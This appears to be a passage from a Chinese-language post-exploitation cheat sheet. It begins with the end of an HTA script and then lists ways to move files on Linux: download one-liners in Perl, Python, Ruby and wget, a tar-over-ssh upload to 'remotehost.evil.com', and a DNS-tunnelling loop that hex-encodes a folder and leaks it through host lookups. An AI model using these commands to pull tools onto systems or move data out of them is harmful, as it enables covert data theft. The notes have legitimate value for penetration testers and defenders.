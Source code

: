 ```html
}
window.close();
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">
</head>
<body>
</body>
</html>
```

##### linux下文件传输  
1、perl脚本文件下载  
kali下测试成功，centos5.5下，由于没有LWP::Simple这个，导致下载失败  
```perl
#!/usr/bin/perl
use LWP::Simple
getstore("http://lemon.com/file.zip", "/root/1.zip");
```

2、python文件下载  
```
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://lemon.com/file.zip')
localFile = open('/root/1.zip', 'w')
localFile.write(u.read())
localFile.close()
```

3、ruby文件下载  
centos5.5没有ruby环境  
```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.lemon.com") { |http|
r = http.get("/file.zip")
open("/root/1.zip", "wb") { |file|
file.write(r.body)
}
}
```

4、wget文件下载  
```
wget http://lemon.com/file.zip -P /root/1.zip
其中-P是保存到指定目录
```

5、一边tar一边ssh上传  
```
tar zcf - /some/localfolder | ssh remotehost.evil.com "cd /some/path/name;tar zxpf -" 
```

6、利用dns传输数据  
```
tar zcf - localfolder | xxd -p -c 16 |  while read line; do host $line.domain.com remotehost.evil.com; done
```
但是有时候会因为没找到而导致数据重复,对数据分析有点影响  